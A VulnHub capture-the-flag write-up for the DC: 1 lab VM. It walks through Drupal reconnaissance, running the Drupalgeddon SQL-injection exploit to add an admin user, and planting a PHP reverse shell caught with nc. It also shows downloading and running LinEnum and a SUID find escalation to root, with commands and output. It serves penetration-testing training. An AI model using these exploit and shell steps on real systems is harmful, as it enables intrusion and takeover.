 ```yaml
---
title: "VulnHub | DC: 1 - Writeup"
excerpt: Writeup for DC:1 of DC series from VulnHub
date: 2019-07-09 00:00:00
categories: [VulnHub]
---
```


## Information
DC: 1 is the first installment on the VulnHub series *DC* by [DCAU][DCAU]{:target="_blank"}. There are 5 flags 
available but flags the first 4 flags are hints on what to do next to capture the subsequent flag. As a result, this 
writeup will only focus on capturing the root flag. 

DC: 1 aims to make the pentester gain control over a vulnerable Drupal installation and from use that control to 
establish a reverse shell, find vulnerabilities in the system, and escalate privileges to `root`.

## Tasks
- Capture the root flag
 
## Summary
- Use `nmap` to see the services
- Use `droopescan` to see possible version(s) of Drupal
- Use `searchsploit` to find an exploit on Drupal and use it to gain administrative access
- Implement a reverse shell by posting a new post and use `nc` to catch the reverse shell
- Spawn a proper shell with `python`
- Use `LinEnum` to find possible vulnerabilities in the system to escalate current privileges to `root`
 
## Walkthrough
### nmap
We begin with a pretty basic `nmap` scan to see what services we're dealing with.

```
$ nmap -sC -sV 192.168.2.111
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey:
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Debian))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          42936/tcp  status
|_  100024  1          43799/udp  status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have 3 services running; `SSH` on Port 22, `HTTP` on Port 80 with Drupal installed on it and `RPC` on Port 111.

### HTTP
Taking a look at the HTTP, we're greeted with a pretty empty Drupal website.

![Drupal - Homepage][Drupal - Homepage]

Other than a login box, there is nothing helpful here; no version number, posts or such. As a result, we have to gather 
more information regarding the system.

### Reconning and Exploiting Drupal
Using `droopescan` we'll gather more information on the Drupal installation.

```
$ pip install droopescan

$ droopescan scan drupal -u 192.168.2.111
[+] Themes found:                                                               
    seven http://192.168.2.111/themes/seven/
    garland http://192.168.2.111/themes/garland/

[+] Possible interesting urls found:
    Default admin - http://192.168.2.111/user/login

[+] Possible version(s):
    7.22
    7.23
    7.24
    7.25
    7.26

[+] Plugins found:
    ctools http://192.168.2.111/sites/all/modules/ctools/
        http://192.168.2.111/sites/all/modules/ctools/LICENSE.txt
        http://192.168.2.111/sites/all/modules/ctools/API.txt
    views http://192.168.2.111/sites/all/modules/views/
        http://192.168.2.111/sites/all/modules/views/README.txt
        http://192.168.2.111/sites/all/modules/views/LICENSE.txt
    image http://192.168.2.111/modules/image/
    profile http://192.168.2.111/modules/profile/
    php http://192.168.2.111/modules/php/
```

`droopescan` found us several possible versions for Drupal but one thing is certain; it's `7.2x`. With that in mind, 
we'll search `searchsploit` to find any known exploits that we can use to gain admin access. There are over 40 known 
exploits regarding Drupal, but the most relevant and useful one is shown below; 
`Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)`. Since our version is `7.2x` this exploit will work 
on our version of Drupal.

```
$ searchsploit Drupal
-------------------------------------------------------------------------------
Exploit Title
-------------------------------------------------------------------------------
[...]

Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)

[...] 
-------------------------------------------------------------------------------
```

```
$ wget https://www.exploit-db.com/download/34992

$ python2 34992 -t http://192.168.2.111 -u Arszilla -p password
[!] VULNERABLE!

[!] Administrator user created!

[*] Login: Arszilla
[*] Pass: password
[*] Url: http://192.168.2.111/?q=node&destination=node
```

We've added `Arszilla` as an admin user with the password `password`.

### Getting a Reverse Shell
Upon logging in we can see the posts, modules and other admin only content. By accessing `Modules` we can see currently 
installed modules and in that list we can see `PHP Filter`; which is disabled. After enabling it we can edit its 
permissions and allow `Administrator` to use it. Now we can go ahead and create a new post where the format is set to 
`PHP Code` and implement our reverse shell using [pentestmoney][pentestmonkey]{:target="_blank"}'s `PHP Reverse Shell` 
script.

![Drupal - PHP Reverse Shell][Drupal - PHP Reverse Shell]

After creating our new post, we'll spawn `nc` to catch the shell once we visit the post.

```
$ nc -lvnp 7500
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

### Logging in as Root
Now that we have a reverse shell, we'll start by spawning a proper shell using `python` and then use `LinEnum` to scan 
the system for possible vulnerabilities to exploit.

```
$ python -c 'import pty; pty.spawn("/bin/sh")'

$ cd /tmp

$ wget raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

$ chmod +x LinEnum.sh

$ ./LinEnum.sh
#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################

[...]

### INTERESTING FILES ####################################
[-] Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget
/usr/bin/gcc
/usr/bin/curl

[+] Possibly interesting SUID files:
-rwsr-xr-x 1 root root 162424 Jan  6  2012 /usr/bin/find

[...]
```

`LinEnum` found an interesting `SUID` regarding `find`. A quick research reveals that `find` is vulnerable to `--exec` 
attack where an attacker can spawn a shell where they're `root`.

```
$ find /etc/passwd -exec /bin/sh \;

$ whoami
root

$ cd /root

$ ls -la
drwx------  2 root root 4096 Feb 19 22:30 .aptitude
-rw-------  1 root root   44 Feb 28 12:11 .bash_history
-rw-r--r--  1 root root  949 Feb 19 23:03 .bashrc
drwxr-xr-x  3 root root 4096 Feb 19 23:03 .drush
-rw-r--r--  1 root root  140 Nov 20  2007 .profile
-rw-r--r--  1 root root  173 Feb 19 23:43 thefinalflag.txt

$ cat thefinalflag.txt
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```

Thus, we've gained captured the `root` flag in DC: 1.

[DCAU]:                         https://twitter.com/DCAU7
[Mr. Robot]:                    https://www.vulnhub.com/entry/mr-robot-1,151/
[Drupal - Homepage]:            /images/2019-07-09-vulnhub-dc_1/Drupal%20-%20Homepage.png
[pentestmonkey]:                http://pentestmonkey.net/
[Drupal - PHP Reverse Shell]:   /images/2019-07-09-vulnhub-dc_1/Drupal%20-%20PHP%20Reverse%20Shell.png